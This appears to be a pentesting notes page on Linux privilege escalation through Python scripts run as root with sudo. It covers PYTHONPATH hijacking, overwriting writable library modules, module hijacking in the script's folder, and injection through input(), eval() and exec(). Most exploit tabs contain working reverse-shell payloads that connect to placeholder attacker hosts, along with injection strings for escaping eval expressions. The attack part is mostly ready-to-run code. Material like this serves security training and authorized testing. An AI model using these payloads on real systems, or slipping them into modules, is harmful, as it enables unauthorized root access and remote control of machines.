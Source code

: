 # Python

## Theory

Python scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, python scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### PythonPath Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights and `SETENV`.

```bash
sudo -l
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/scripts/example.py
```

With `SETENV`, we can change PYTHONPATH when executing the script, and insert malicious script to the module which is imported in the script.

First, we can check what module is imported in the python script (e.g. `/opt/scripts/example.py` here).

```python
import random
print(random.randint(1, 8))
```
{% endtab %}

{% tab title="Exploit" %}
We can forge the imported module

```bash
$ cat /tmp/random.py

import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

Then run the python script with updating PYTHONPATH in the remote machine.

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/scripts/example.py
```

{% hint style="info" %}
By setting `PYTHONPATH=/tmp/`, the python script will import modules from `/tmp/` directories so the "random" module is imported from /tmp/random.py.
{% endhint %}
{% endtab %}
{% endtabs %}

### Python Library Overriding

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If the Python script contains a **module that can be modified** by current user, we can inject arbitrary code into the module.

```bash
sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py
```

Find writable python modules

```bash
$ find / -name "*.py" -writable 2>/dev/null
/usr/lib/python3.11/random.py
```

We can check if modules on which we have write access are imported by the script

```python
import random
print(random.randint(1, 8))
```
{% endtab %}

{% tab title="Exploit" %}
We can append our payload at the end the of the module

```bash
$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING_IP",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' >> /usr/lib/python3.11/random.py
```

Then run the python script with sudo

```bash
sudo /usr/bin/python3 /opt/scripts/example.py
```
{% endtab %}
{% endtabs %}

### Python Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If we can **write on the folder containing the script**, then python will prioritize the execution of this module instead of the usual path

```bash
sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py
```

Check what modules are imported by the script

```python
import random
print(random.randint(1, 8))
```

Check write access

```bash
$ touch /opt/scripts/random.py
```
{% endtab %}

{% tab title="Exploit" %}
Write the malicious module on the same folder as the script

```bash
$ cat /opt/scripts/random.py

#!/usr/bin/bash
import os
os.system('bash -c "/bin/bash -i >& /dev/tcp/<ATTACING_IP>/9001 0>&1"')
```

Then run the python script with sudo

```bash
sudo /usr/bin/python3 /opt/scripts/example.py
```
{% endtab %}
{% endtabs %}

### OS Commands in input()

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `input` function and if it's **python2.x**, the input() function is equivalent to `eval(raw_input)`. Then we can execute arbitrary code.

```bash
sudo -l
    (root): /usr/bin/python2.7 /opt/scripts/example.py
```

Check that the input command is used

```python
compute = input('\nYour expression? => ')
```
{% endtab %}

{% tab title="Exploit" %}
We can enter an OS commands in the input function

```bash
$ sudo /usr/bin/python3 /opt/scripts/example.py

Enter Your expression? => __import__('os').system('id')
#or
Enter Your expression? => __import__('os').system('bash -c "bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1"')
```
{% endtab %}
{% endtabs %}

### OS Commands in Eval() and Exec()

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `eval()` or `exec()` method, then it's vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py
```

Check that one of this commands is used, examples:

```python
#With eval
eval(text)
eval(f"5 + {num}")
print ("Result =", eval(comp))

#With exec
code = input('What command(s) in python did you learn today?')
exec(code)
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code.

```python
__import__('os').system('id')

#Bypass another expression in eval
),__import__('os').system('id')
'),__import__('os').system('id')
},__import__('os').system('id')
),__import__('os').system('id')#

#Example of a ReverseShell
__import__('os').system('bash -c "bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1"')
```
{% endtab %}
{% endtabs %}

### Format String Exploit

## References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/" %}

{% embed url="https://mikadmin.fr/blog/linux-privilege-escalation-python-library-hijacking/" %}

{% embed url="https://www.stackhawk.com/blog/command-injection-python/" %}

{% embed url="https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/" %}